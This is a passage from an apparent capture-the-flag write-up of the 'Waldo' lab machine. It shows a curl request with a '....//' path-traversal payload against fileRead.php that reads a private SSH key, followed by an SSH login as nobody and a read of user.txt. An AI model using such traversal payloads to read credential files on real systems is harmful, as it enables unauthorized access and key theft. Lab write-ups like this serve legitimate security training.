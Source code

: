 -   There's also a .ssh folder, which contains a file named `.monitor`,
    which is a private ssh key. I'll save it with this command:

    <div>

    <div>

        root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file > ~/id_waldo_nobody

    </div>

    </div>

## SSH Access as nobody

Now with an ssh key, I can get a shell on Waldo as nobody:



    root@kali# ssh -i id_rsa_waldo_nobody nobody@10.10.10.87
    Welcome to Alpine!

    The Alpine Wiki contains a large amount of how-to guides and general
    information about administrating Alpine systems.
    See <http://wiki.alpinelinux.org>.
    waldo:~$ id
    uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)



This gives me access to `user.txt`:



    waldo:~$ wc -c user.txt
    33 user.txt
    waldo:~$ cat user.txt
    32768bcd...



## Privesc / Pivot: nobody -\> monitor

### Discovery

The next step involves noticing a bunch of things that are acting weird
and some experimentation (or, if you're on free, noticing in the process
list that someone else has already sshed into localhost as monitor).

-   The private key I found was named .monitor. I used it with nobody,
    but it didn't have that name in it.

-   monitor isn't a user on this host.

-   ssh on this box is configured to listen on 8888. When I tried to
    talk to 8888 from the attacker box, it hangs (remember the filtered
    return from the original `nmap`). But here's the interesting parts
    from the ssh config:

